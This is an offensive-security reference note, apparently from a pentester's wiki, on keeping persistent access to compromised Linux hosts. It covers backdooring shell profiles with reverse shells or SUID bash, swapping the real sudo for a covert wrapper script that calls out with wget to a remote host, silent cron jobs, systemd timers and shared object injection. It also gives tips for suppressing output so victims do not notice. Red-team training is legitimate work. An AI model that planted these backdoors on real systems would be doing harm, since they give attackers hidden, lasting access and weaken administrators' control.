 # Linux Persistence

---

## Backdooring a User's Shell Profile

[[shell-profiles|Shell profiles]] execute whenever a user logs in or logs out. You can persist by placing **shell commands** inside one of these profiles.

### Process

1. Choose a user to persist as
2. Determine the user's default shell (in [[etc-passwd|/etc/passwd]])
3. Based on the user's default shell and the different [[shell-profiles#Shell Profile Execution Scenarios Order|shell profile execution scenarios and their orders]], choose a shell profile to infect
4. Write your **shell commands** to the target shell profile
	- Possible examples:
		- Reverse shell
		- Copy `bash` and set its [[suid|SUID]] bit

---

## `sudo` Wrapper

Replace the system's legitimate `sudo` executable with a program that proxies requests to the legitimate `sudo` executable and provides persistence.

### Process

1. Elevate to a `root` shell
2. Determine the full path of the legitimate `sudo` executable

```bash
$ which sudo
/usr/bin/sudo
```

3. Move the legitimate `sudo` executable elsewhere

```bash
mv /usr/bin/sudo /etc/sudo
```

4. Stage the malicious `sudo` proxy executable. This program should perform a covert persistance function and then call `sudo` with all the command line arguments, suppressing any output to `stdout` and `stderr`. A `bash` example whose convert function is to make an HTTP request to a web server:

```bash
#!/bin/bash
wget http://10.6.31.77/sudo 1>/dev/null 2>&1
/etc/sudo $@
```

5. Set the malicious `sudo` proxy executable's executable permission.

---

## `cron` Job

Schedule a `cron` job to execute a persistence command at a particular time interval.

### Process

1. Select the target user to persist as
2. [[cron#Set Up a Cron Job|Schedule the cron job as the target user]]
	- Keep in mind that by default, `cron` sends an email of output to the owner of the `cron` confguration file when it runs. Be sure to suppress all output to `stdout` and `stderr` to prevent this
	- Example persistence command to make an HTTP request to a web server:

```bash
* * * * * wget http://10.6.31.77/cron 1>/dev/null 2>&1
```

---

## `systemd` Timer

Create a malicious `systemd` service and schedule it to run at a particular time interval via a `systemd` timer.

### Process

1. Elevate to a `root` shell
2. [[systemd#Create a systemd Service|Create the persistence service]]
	- Be sure to specify `$TARGET_USERNAME` as the target user to persist as
3. [[systemd#Schedule a systemd Timer|Schedule a systemd timer for the persistence service]]
	- Be sure to customize the execution interval
4. Start the timer and optionally enable it

```bash
systemctl start $NAME_OF_SERVICE
systemctl enable $NAME_OF_SERVICE
```

---

## Shared Object File Injection

Replace a shared object file that is regularly imported by an elevated process with an arbitrary payload.

### Process

Follow  the [[shared-object-file-injection#Process|shared object file injection process]], keeping in mind that if you have elevated access and are trying to persist that access, you can overwrite pretty much any shared object file you want, whether it exists or not.

---

## References

[Hackers Vanguard - Establishing Persistenc with systemd Timers](https://hackersvanguard.com/establishing-persistence-systemd-timers/)
